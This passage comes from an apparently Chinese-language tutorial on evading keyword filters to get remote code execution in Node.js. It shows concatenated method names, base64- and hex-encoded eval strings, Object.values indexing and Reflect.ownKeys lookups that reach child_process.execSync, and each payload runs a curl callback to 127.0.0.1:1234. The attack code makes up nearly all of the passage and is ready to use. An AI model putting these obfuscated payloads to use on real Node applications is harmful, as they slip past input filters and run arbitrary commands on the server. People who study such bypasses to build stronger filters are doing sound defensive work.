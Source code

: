 利用js中的concat函数连接字符串

```
require("child_process")["exe".concat("cSync")]("curl 127.0.0.1:1234")
```

### <a class="reference-link" name="2.6%20base64%E7%BC%96%E7%A0%81"></a>2.6 base64编码

这种应该是比较常规的思路了。

```
eval(Buffer.from('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=','base64').toString())
```



## 3. 其他bypass方式

这一块主要是换个思路，上面提到的几种方法，最终思路都是通过编码或者拼接得到`exec`这个关键字，这一块考虑js的一些语法和内置函数。

### <a class="reference-link" name="3.1%20Obejct.keys"></a>3.1 Obejct.keys

实际上通过`require`导入的模块是一个`Object`，所以就可以用`Object`中的方法来操作获取内容。利用`Object.values`就可以拿到`child_process`中的各个函数方法，再通过数组下标就可以拿到`execSync`

```
console.log(require('child_process').constructor===Object)
//true
Object.values(require('child_process'))[5]('curl 127.0.0.1:1234')
```

### <a class="reference-link" name="3.2%20Reflect"></a>3.2 Reflect

在js中，需要使用`Reflect`这个关键字来实现反射调用函数的方式。譬如要得到`eval`函数，可以首先通过`Reflect.ownKeys(global)`拿到所有函数，然后`global[Reflect.ownKeys(global).find(x=&gt;x.includes('eval'))]`即可得到eval

```
console.log(Reflect.ownKeys(global))
//返回所有函数
console.log(global[Reflect.ownKeys(global).find(x=&gt;x.includes('eval'))])
//拿到eval
```

拿到eval之后，就可以常规思路rce了

```
global[Reflect.ownKeys(global).find(x=&gt;x.includes('eval'))]('global.process.mainModule.constructor._load("child_process").execSync("curl 127.0.0.1:1234")')
```

这里虽然有可能被检测到的关键字，但由于`mainModule`、`global`、`child_process`等关键字都在字符串里，可以利用上面提到的方法编码，譬如16进制。

```
global[Reflect.ownKeys(global).find(x=&gt;x.includes('eval'))]('\x67\x6c\x6f\x62\x61\x6c\x5b\x52\x65\x66\x6c\x65\x63\x74\x2e\x6f\x77\x6e\x4b\x65\x79\x73\x28\x67\x6c\x6f\x62\x61\x6c\x29\x2e\x66\x69\x6e\x64\x28\x78\x3d\x3e\x78\x2e\x69\x6e\x63\x6c\x75\x64\x65\x73\x28\x27\x65\x76\x61\x6c\x27\x29\x29\x5d\x28\x27\x67\x6c\x6f\x62\x61\x6c\x2e\x70\x72\x6f\x63\x65\x73\x73\x2e\x6d\x61\x69\x6e\x4d\x6f\x64\x75\x6c\x65\x2e\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72\x2e\x5f\x6c\x6f\x61\x64\x28\x22\x63\x68\x69\x6c\x64\x5f\x70\x72\x6f\x63\x65\x73\x73\x22\x29\x2e\x65\x78\x65\x63\x53\x79\x6e\x63\x28\x22\x63\x75\x72\x6c\x20\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x3a\x31\x32\x33\x34\x22\x29\x27\x29')
```
